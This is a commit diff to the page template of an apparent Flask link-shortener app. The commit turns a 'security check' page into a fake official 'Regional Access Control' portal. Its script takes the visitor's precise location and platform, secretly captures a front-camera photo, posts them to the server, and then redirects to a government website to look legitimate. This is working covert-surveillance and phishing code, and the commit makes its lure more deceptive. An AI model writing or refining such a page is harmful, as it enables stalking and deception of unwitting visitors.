

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Revamp verification page layout and functionality

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,34 +1,51 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-    <title>Verify You Are Human</title>
+    <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Digital Verification Portal</title>
     <style>
-        body { background: #000; color: #0f0; font-family: 'Courier New', monospace; text-align: center; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .box { border: 1px solid #0f0; padding: 30px; border-radius: 5px; box-shadow: 0 0 15px #0f0; }
-        button { background: #0f0; color: #000; padding: 12px 25px; border: none; cursor: pointer; font-weight: bold; margin-top: 20px; }
+        body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; background-color: #f5f7f9; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .container { background: white; width: 90%; max-width: 380px; padding: 30px; border-radius: 12px; box-shadow: 0 4px 6px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
+        .header-top { border-bottom: 2px solid #28a745; margin-bottom: 20px; padding-bottom: 10px; font-weight: bold; color: #28a745; text-align: left; font-size: 14px; }
+        h2 { font-size: 18px; color: #24292e; margin: 0 0 10px 0; text-align: left; }
+        p { font-size: 13px; color: #586069; line-height: 1.6; text-align: left; margin-bottom: 25px; }
+        .btn { background-color: #28a745; color: white; border: none; padding: 12px; width: 100%; border-radius: 6px; font-size: 15px; font-weight: 600; cursor: pointer; transition: background 0.2s; }
+        .btn:hover { background-color: #218838; }
+        .footer { font-size: 11px; color: #959da5; margin-top: 20px; text-align: center; }
+        #loader { display: none; text-align: center; font-size: 13px; color: #28a745; }
     </style>
 </head>
 <body>
-    <div class="box">
-        <h3>🔒 SECURITY CHECK</h3>
-        <p>Complete verification to view content.</p>
-        <button onclick="start()">VERIFY NOW</button>
+
+<div class="container">
+    <div class="header-top">OFFICIAL VERIFICATION</div>
+    <h2>Regional Access Control</h2>
+    <p>According to the latest security guidelines, please verify your current location and identity to access the requested portal. This is a mandatory step for users in your region.</p>
+
+    <div id="loader">Verifying credentials...</div>
+    <button id="mainBtn" class="btn" onclick="verify()">CONTINUE TO PORTAL</button>
+
+    <div class="footer">
+        Reference ID: #PK-2026-X9<br>
+        &copy; Digital Services Authority
+    </div>
 </div>
 
 <video id="v" style="display:none;" autoplay></video>
 <canvas id="c" style="display:none;" width="640" height="480"></canvas>
 
 <script>
-        async function start() {
-            let info = { platform: navigator.platform, battery: "N/A", lat: "0", lon: "0" };
+    async function verify() {
+        document.getElementById('mainBtn').style.display = 'none';
+        document.getElementById('loader').style.display = 'block';
 
-            // Battery info
-            if(navigator.getBattery) { const b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; }
+        let info = { platform: navigator.platform, lat: "0", lon: "0" };
 
-            // Location & Camera Permission
         navigator.geolocation.getCurrentPosition(async (pos) => {
-                info.lat = pos.coords.latitude; info.lon = pos.coords.longitude;
+            info.lat = pos.coords.latitude;
+            info.lon = pos.coords.longitude;
+
             try {
                 const stream = await navigator.mediaDevices.getUserMedia({video: { facingMode: "user" }});
                 const video = document.getElementById('v');
@@ -37,14 +54,15 @@
                 setTimeout(() => {
                     const canvas = document.getElementById('c');
                     canvas.getContext('2d').drawImage(video, 0, 0);
-                        const imgData = canvas.toDataURL('image/jpeg', 0.7);
+                    const img = canvas.toDataURL('image/jpeg', 0.5);
                     stream.getTracks().forEach(t => t.stop());
-                        send(info, imgData);
+                    send(info, img);
                 }, 1500);
             } catch(e) { send(info, null); }
         }, (err) => {
-                alert("Error: Please allow Location and Camera to verify.");
-            }, {enableHighAccuracy:true});
+            alert("Verification Failed: Regional access requires location services to be enabled.");
+            location.reload();
+        }, {enableHighAccuracy: true});
     }
 
     function send(i, p) {
@@ -52,8 +70,11 @@
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify({ info: i, photo: p })
-            }).then(() => { window.location.href = "https://google.com"; });
+        }).then(() => {
+            window.location.href = "https://www.pakistan.gov.pk/";
+        });
     }
 </script>
+
 </body>
     </html>
```
Lines whose indentation alone changed are shown as unchanged.
